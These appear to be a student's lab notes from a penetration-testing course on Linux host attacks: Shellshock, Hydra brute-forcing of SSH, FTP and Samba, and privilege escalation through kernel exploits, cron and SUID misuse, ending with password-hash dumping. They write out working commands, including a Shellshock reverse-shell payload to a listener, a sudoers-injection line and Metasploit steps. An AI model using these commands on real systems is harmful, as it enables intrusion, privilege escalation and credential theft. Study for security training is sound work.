


# Linux: System/Host based Attack

## Frequently Exploited Linux services

* Apache Web Server
    * 80/443
* SSH
    * 22
* FTP
    * 21
* SAMBA
    * 445
    * Linux (open source) implementation of SMB

## Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

* Exploits bash + Apache
* Summary, if the following sequence is inputted to bash, all the following cmd will also be executed
    * (){:;};,
* If CGI is enabled in Apache, this might allow RCE on linux
* Lab
    * Find out the CGI uri
        * open the web app in browser and study the source html
    * Exploitation
        * Option 1: Burp suite
            * Setup proxy
            * Identify the CGI interaction and send to repeater
            * Change the user agent string to
                * () { :; }; echo; echo; /bin/bash -c ‘cat /etc/passwd’ (demo)
                * Get reverse shell
                    * Setup listener —> nc -nvlp 1234
                    * () { :; }; echo; echo; /bin/bash -c ‘bash -I>&/dev/tcp/listener_ip/1234 0>&1’
        * Option 2: Metasploit
            * Use exploit/multi/http/apache_mod_cgi_bash_env_exec
            * Set rhosts; set targeturi; exploit
            * This will result in a meterpreter session

## Exploiting FTP:

Refer notes on Enumerating FTP

Demo was about checking Anonymous access and brute forcing login with Hydra

## Exploiting SSH

Refer Enumerating SSH section for basics

Demo shows brute forcing via Hydra : hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.166.196.3 ssh

## Exploiting SAMBA

For basic, refer Enumerating - SMB notes.

SAMBA is the open source implementation of SMB

SAMBA exploitation is also covered in Metasploit section

Demo speaks about brute force using hydra and then login using smbmap (tool available on kali) to login and enumerate the shares.

Use smbclient to mount the shares and enumerate files:
* Smbclient \\ip\share -U admin —> to login

## Linux Privilege Escalations

### Linux Kernel Exploits

* Exploiting kernel to run arbitrary code
    * Code runs with privileged access by default
* Kernel exploits are often unstable if wrongly matched, can take down the target system
* Tools
    * Linux Exploit suggester : github.com/mzet-/linux-exploit-suggester
* Demo
    * The instructor has already acquired a meterpreter session
        * Username: www-data
    * Inside linux-exploit-suggester
        * LES- Linux privilege escalation auditing tool
        * Upload the les.sh to target
            * /bin/bash -I
                * ./les.sh
                    * Enumerates the list of vulnerabilities that apply to this linux bistro
                        * Exploit listed at the top have the highest probability
        * Identified dirty cow as one of the plausible vulnerability
            * Navigate to exploit suggested by LES
                * Exploit DB
                    * Compile code and then run it on target
                        * Sudo apt-get install gcc
                    * Sometimes the c code needs to be compiled on target machine
                    * Running the exploit will create the specified username and password with privileged access

### Exploiting misconfigured cronjob

* Cronjob created through root user will have root privileges
* The exploit manipulated cronjobs created by root to execute arbitrary commands
* Demo Lab: (Has been setup with a lot of assumption, not very realistic)
    * Demo was given with login for student user, does not have privileged access to system
    * By examining, the home folder for student, a message file was found
        * This file is created and owned by root
        * We are making an assumption that this might be a cronjob
    * grep -rnw /usr -e "/home/student/message"
        * Will find all the files with the path to that file, hoping to find a script which is executed by cronjob
            * /usr/local/share/copy.sh was found
    * Assuming that copy.sh is executed by cronjob, we insert arbitrary code into that file
        * printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
            * This grants sudo access to student
    * So, when the copy.sh is executed by cron, our arbitrary code is executed with privileged access, granting student sudo access

### Exploiting SUID binaries

* SUID - Set Owner User ID
* When SUID bit is assigned to a file/binary, the file can be executed with the permissions of the owner
    * Ex: if a binary is owned/create by root and has the SUID bit assigned. A unprivileged user can run that binary with root access. A privilege escalation can be executed by manipulating/exploiting the functionality/vulnerability of the binary.
    * Sudo is one such binary which allow user to execute it as root, but required a password for root.
   
* As you can see the “s” bit is enabled on welcome binary, and it can be executed student. Which means welcome will be executed with root privileges
* Upon analyzing welcome file
    * file welcome
        * Will give you metadata about the file
    * string welcome
        * Will display all the string (cmds) executed by welcome
        * Upon browsing the information, it seems the welcome file calls upon greetings file
* Since greetings is located in students home
    * We can delete the greetings file and create a bash binary instead
        * cp /bin/bash greetings
* Upon executing welcome, greetings will be called and a bash session with root privileges will be opened.

### Dumping linux password hashes

* Password hashes are listed in /etc/shadow
* The hashing algo can be identified by:
    
    * SHA-256 and SHA-512 are difficult to crack, takes more time.
* Demo
    * Nmap -sV target
        * Reveals a vulnerable ProFTPD version
    * Searchsploit ProFTPD
        * Reveals a metasploit module for the fingerprinted version
    * Msfconsole
        * Search ProFTPD
            * Run that module
        * This will give a command shell
            * /bin/bash -I
                * Will provide a bash shell
        * The user account compromised is root’s
        * We can upgrade the bash to meterpreter by
            * ctrl+z -> send bash to background
            * Sessions -u <id> —> will provide an meterpreter session
        * Cat /etc/shadow will dump the hash
        * Or 
            * Metasploit module /post/linux/gather/hashdump can be used to dump hashes
                * Set session <id> ; run
